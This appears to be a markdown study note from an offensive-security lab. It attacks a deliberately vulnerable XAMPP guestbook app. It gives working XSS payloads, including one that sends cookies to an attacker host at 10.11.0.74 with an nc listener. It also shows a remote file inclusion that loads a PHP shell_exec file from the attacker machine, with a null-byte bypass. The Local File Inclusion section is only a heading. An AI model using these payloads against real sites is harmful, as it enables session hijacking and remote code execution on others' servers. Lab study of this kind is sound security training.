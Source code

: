 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
